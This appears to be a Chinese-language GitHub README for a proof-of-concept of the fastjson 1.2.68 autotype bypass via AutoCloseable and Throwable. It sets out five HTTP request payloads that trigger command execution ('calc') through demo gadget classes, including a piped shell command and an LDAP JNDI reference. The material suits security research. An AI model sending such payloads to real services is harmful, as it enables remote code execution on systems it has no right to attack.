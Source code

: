 ## fastjson-bypass-autotype-1.2.68
fastjson因为exceptClass期望类的特性导致可以通过AutoCloseable和Throwable绕过autotype。

## 复现
运行`org.chabug.fastjson.DemoApplication`，访问http://localhost:8082/json

AutoCloseable绕过
```text
POST /parseObject HTTP/1.1
Host: test.local:8082
Connection: close
Content-Type: application/json
Content-Length: 131

{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecCloseable",
  "domain": "y4er.com | calc"
}
```
Throwable绕过
```text
POST /parseObject HTTP/1.1
Host: test.local:8082
Connection: close
Content-Type: application/json
Content-Length: 127

{
  "@type":"java.lang.Exception",
  "@type": "org.chabug.fastjson.exploit.ExecException",
  "domain": "y4er.com | calc"
}
```
拓展AutoCloseable绕过 Runnable
```text
POST /parseObject HTTP/1.1
Host: test.local:8082
Connection: close
Content-Type: application/json
Content-Length: 174

{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecRunnable",
  "eval":{"@type":"org.chabug.fastjson.exploit.EvalRunnable","cmd":"calc"}
}
```
Readable
```text
POST /parseObject HTTP/1.1
Host: test.local:8082
Connection: close
Content-Type: application/json
Content-Length: 174

{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecReadable",
  "eval":{"@type":"org.chabug.fastjson.exploit.EvalReadable","cmd":"calc"}
}
```

使用$ref拓展攻击面，使用parse()解析的也能触发任意getter。来自于[@threedr3am](https://github.com/threedr3am/learnjavabug/commit/ea61297cf7b2125ecae0064d2b8061a9e32db1e6) 师傅
```text
POST /parse HTTP/1.1
Host: php.local:8082
Connection: close
Content-Type: application/json
Content-Length: 159

{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.RefAnyGetterInvoke",
  "resourceName":"ldap://localhost:1389/Calc",
  "instance":{"$ref":"$.instance"}
}
```

## 说明
用到的`org.chabug.fastjson.exploit.ExecException`和`org.chabug.fastjson.exploit.ExecCloseable`都是我自己写的，在其getter中实现了`Runtime.getRuntime().exec()`，真正要利用还是得自己找到可用的gadget。

另外浅蓝师傅、Kingkk师傅以及l1nk3r师傅的文章中已经说的很明白了，走JNDI注入困难，找找写文件什么的还行，**我也还在寻找gadget的过程中，欢迎师傅们加我一起交流**。

## 参考
1. https://github.com/iSafeBlue/fastjson-autotype-bypass-demo
2. https://b1ue.cn/archives/348.html
3. https://b1ue.cn/archives/382.html
4. [浅谈下Fastjson的autotype绕过](https://www.kingkk.com/2020/06/%E6%B5%85%E8%B0%88%E4%B8%8BFastjson%E7%9A%84autotype%E7%BB%95%E8%BF%87/)
5. https://forum.90sec.com/t/topic/1115

移步 https://github.com/threedr3am/learnjavabug/blob/96f81b85bab45453d8c29465225b51f3900148f3/fastjson/src/main/java/com/threedr3am/bug/fastjson/file/FileWriteBypassAutoType1_2_68.java
